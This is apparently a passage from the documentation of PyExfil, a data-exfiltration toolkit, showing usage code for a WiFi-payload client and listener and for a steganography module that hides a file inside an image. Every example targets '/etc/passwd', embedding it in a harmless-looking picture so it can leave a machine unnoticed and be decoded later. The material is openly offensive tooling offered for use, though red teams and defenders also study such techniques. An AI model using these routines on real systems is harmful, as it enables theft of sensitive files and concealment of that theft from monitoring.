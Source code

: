 ```python
# Client (exfiltrator)
from pyexfil.physical.wifiPayload import client

client.exfiltrate(file_path="/etc/passwd", key="shut_the_fuck_up_donnie!")

# Server (listener)
from pyexfil.physical.wifiPayload import server

server.StartListening(adapter="en0")
```

### Steganography

#### Image Binary Offset
The binary offset technique will take a file, (zlib it), convert it into a binary string *b01010101...*, and then take an image, and convert it into a pixel array with 3 entities per pixel `(int(R),int(G),int(B))`. In case where the image has a transperancy pixel (PNG for example) the PyExfil will currently ignore it. Then the binary string will be incorprated into the pixel array and saved in another location.

The result, is an image file that contains all the data. Without the original image file you cannot decode the image as there is nothing to compare the changes to.

As an executable module:
```bash
binoffset.py baseimage "originalImage.jpg" "outputpath.jpg"
binoffset.py encode "baseImage.jpg" "/etc/passwd" "newImage.jpg"
binoffset.py decode "newImage.jpg" "baseImage.jpg" "passwdFile"
```

So in total, the stages are:

1. Convert an image to a reliable base image for the use by this technique.
2. Take the file `/etc/passwd` and use the base image `baseImage.jpg` to create a new image named `newImage.jpg` with all the data from `/etc/passwd` encorporated into it.
3. Take the image containing the data along with the base image and give me a file named `passwdFile` with all the content of `/etc/passwd` in it.

As a python module:

```python
from pyexfil.Stega.binoffset.binoffset import PrepareBaseImage, DecodeExfiltrationFile, CreateExfiltrationFile

originalImage = 'myLogo.png'      # Image downloaded from the internet
fileToExfiltrate = '/etc/passwd'  # The file you want to embed in the picture

# Prepare image for use
PrepareBaseImage(imagePath=originalImage, outputPath="base_"+originalImage)

# On the machine with the file
CreateExfiltrationFile(originalImage="base_"+originalImage, rawData=fileToExfiltrate, OutputImage="niceImage.png")

# After getting the image back, use this to decode it
DecodeExfiltrationFile(originalImage="base_"+originalImage, newImage="niceImage.png", outputPath="passwd.file")
```
